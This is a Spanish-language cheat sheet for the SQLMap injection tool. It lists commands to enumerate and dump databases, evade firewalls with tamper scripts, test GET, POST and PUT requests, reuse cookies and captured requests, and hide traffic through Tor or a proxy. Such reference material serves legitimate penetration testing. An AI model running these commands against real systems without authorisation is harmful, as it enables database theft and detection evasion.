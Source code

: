 # Comandos básicos de la herramienta SQLMap
<p align="center">
  <img src="https://i.postimg.cc/7LMcjndm/SQLmap.png" alt="sql"/>
</p>

- Notas: 
	1. Si se utiliza `-r` con `sqlmap` para leer un a solicitud HTTP desde un archivo, no es necesario utilizar la opción `-u`.
	2. Cuando se tenga una solicitud HTTP completa en un `file.txt` y quiera replicarse exactamente como fue capturada se utiliza `-r`.
	   En caso de querer especificar los datos de la solicitud en la línea de comandos se utilizaría `--data="user=user&pass=pass"`.
	3. Se puede alojar un script personalizado en el parámetro `--tamper`.

| COMANDOS     | DESCRIPCIÓN                                                                                                             |
| ------------ | ----------------------------------------------------------------------------------------------------------------------- |
| **-u**       | Especifica el objetivo (`-u example.com`)                                                                               |
| **-r**       | Especifica el objetivo desde un .txt con la cabecera (`-r request.txt`)                                                 |
| **--data**   | Realiza pruebas de `SQLi` en parámetros específicos para determinar si son vulnerables(`--data="user=user&pass=pass"`). |
| **-p**       | Realiza una prueba en un parámetro en específico (`-p user`).                                                           |
| **--tamper** | Evade detección de firewall (`--tamper space2comment`)                                                                  |

### Base de datos
- Devuelve todas las bases de datos
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln --dbs --tamper=space2comment
```
### Tabla
- Devuelve las tablas de una DB específica
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name --tables
```
### Columnas
- Devuelve las columnas de una DB y tabla específica
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name --columns
```
#### Datos
- Devuelve los DATOS de una columna específica
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name  --dump -C name,name,name
```
---
# Métodos HTTP: GET vs POST

| **GET**                                                                                       | **POST**                                                                        |
| --------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| Solicita los datos de un servidor.                                                            | Envia datos al servidor, a menudo datos de un formulario.                       |
| Datos enviados en la **URL** de la solicitud.                                                 | Datos se envían en el **cuerpo** de la solicitud **HTTP**.                      |
| Parámetros visibles en la **URL** del navegador.                                              | Parámetros **no** visibles en la **URL**  del navegador.                        |
| Solicitud limitada por la longitud máxima de la **URL.** Varía según el navegador y servidor. | No hay limitación de tamaño en los datos enviados en el cuerpo de la solicitud. |


**EJEMPLO GET:** `http://www.example.com/index.php?username=user&password=pass123`

**EJEMPLO POST:** 
```http
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded

username=user&password=pass123
```
## GET Request con SQLMap:

- Se analiza **user=admin** y **pass=admin** en la **URL** para detectar posibles inyecciones **SQL**.
```bash
sqlmap -u http://www.example.com/login.php?user=admin&pass=admin
```
## POST Request con SQLMap:

- Se analiza  **user=admin** y **pass=admin** en el **cuerpo** de la solicitud para detectar posible SQLi.
```bash
sqlmap -u http://www.example.com/login.php --data='user=admin&pass=admin'
```
## PUT Request con SQLMap:

- PUT, envía datos al servidor para crear o actualizar un recurso en el servidor.
- Se permite verificar si la aplicación web es susceptible a `SQLi` con un método diferente a los que son `POST` y `GET`.
```bash
sqlmap -u www.example.com --data='id=1' --method PUT
```
## Solicitud HTTP con SQLMap

- Se puede guardar la cabecera desde BurpSuite en un **.txt** y luego alojarla en la herramienta de SQLMap junto el comando **-r**.
1. Lanzar la petición.
2. Capturar la trama.
3. Copiar la cabecera.
4. Pegarla en un archivo .txt
5. Ingresar la ruta del archivo .txt en la herramienta SQLMap. `-r /../../rq.txt`
```bash
sqlmap -r request.txt /rq.txt
```
## Cookies con SQLMap

- Especificar el valor de la cookie con SQLMap.
```bash
sqlmap ... --cookie='PHPSESSID=..'
```
- Otro ejemplo es utilizar en vez de `--cookie` los comandos `-H/--header`
```bash
sqlmap ... -H='Cookie:PHPSESSID=..'
```
---
# "Anonimato"

## Usar TOR con SQLMap
```bash
sqlmap -u 'http://www.example.com' --tor --tor-type=SOCK5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```
## Usar un PROXY con SQLMap
```bash
sqlmap -u 'http://www.example.com' --proxy='https://127.0.0.1:8080'
```

